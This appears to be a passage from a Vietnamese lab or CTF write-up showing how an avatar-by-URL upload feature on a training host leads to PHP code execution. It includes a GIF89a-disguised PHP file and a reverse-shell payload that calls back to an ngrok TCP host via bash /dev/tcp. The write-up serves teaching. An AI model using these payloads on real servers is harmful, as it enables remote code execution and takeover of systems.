 Và cấu hình mặc định khiến cho file `.php` có thể thực thi là: 

![image](https://hackmd.io/_uploads/HJKUbBJZll.png)
<p style="text-align:center"><em>Cấu hình mặc định cho phép thực thi file</em></p>

Nghĩa là tất cả các thư mục con trong `/var/www/`, bao gồm cả `/var/www/html/upload/`, sẽ:

- Được phép truy cập `(Require all granted)`
- Không bị cấm gì về PHP 
- Không có `AllowOverride`, nên file `.htaccess` cũng không hiệu lực để chặn PHP nếu không bật lại

### Step to reproduce 

Đầu tiên, mình sẽ tạo 1 file `shell.php` với nội dung như sau:
```bash=
GIF89a
<?php phpinfo(); ?>
```
Sau đó, mình dùng web https://tmpfiles.org/ để upload file `shell.php` từ đây có thể gửi URL này đến chức năng upload avatar.

![image](https://hackmd.io/_uploads/S1fVQH1Zlg.png)
<p style="text-align:center"><em>Upload thành công file `shell.php` lên tmpfiles</em></p>

Tiếp theo, ta gửi URL chứa file `shell.php` được cấp lên chức năng upload avatar.

![image](https://hackmd.io/_uploads/Bya2QryZxe.png)
<p style="text-align:center"><em>Cấp URL chứa file `shell.php` lên chức năng upload avatar</em></p>

Giờ ta cần tìm đường dẫn file đã được thay đổi. Quan sát trong BurpSuite, ta thấy:

![image](https://hackmd.io/_uploads/H1UkIByWgl.png)
<p style="text-align:center"><em>Tên file đã thay đổi từ `shell.php` thành `4762991e1201cbcb.php`</em></p>

Cuối cùng, ta truy cập vào `upload/4762991e1201cbcb.php` trên host `https://upload.koinbase.cyberjutsu-lab.tech/`

![image](https://hackmd.io/_uploads/rJgQIrJ-ll.png)
<p style="text-align:center"><em>Thực hiện code PHP trên host `upload` thành công</em></p>

Khi đã biết thư mục `upload` cho phép thực thi mã `PHP`, ta có thể tạo một tệp giả mạo hình ảnh (ví dụ `.gif`) nhưng thực chất chứa mã độc để thiết lập `reverse shell`.

```bash=php
GIF89a
<?php system('bash -c "bash -i >& /dev/tcp/0.tcp.ap.ngrok.io/YOUR_PORT 0>&1"'); ?>
```
Ta sử dụng `ngrok` để công khai một cổng TCP trên máy local ra Internet.

![image](https://hackmd.io/_uploads/S1JswBJbeg.png)
<p style="text-align:center"><em>Public một kết nối TCP ra ngoài internet bằng ngrok</em></p>

![image](https://hackmd.io/_uploads/BJlJdSy-ge.png)
<p style="text-align:center"><em>Mở kết nối TCP ở local để chờ reverse shell</em></p>
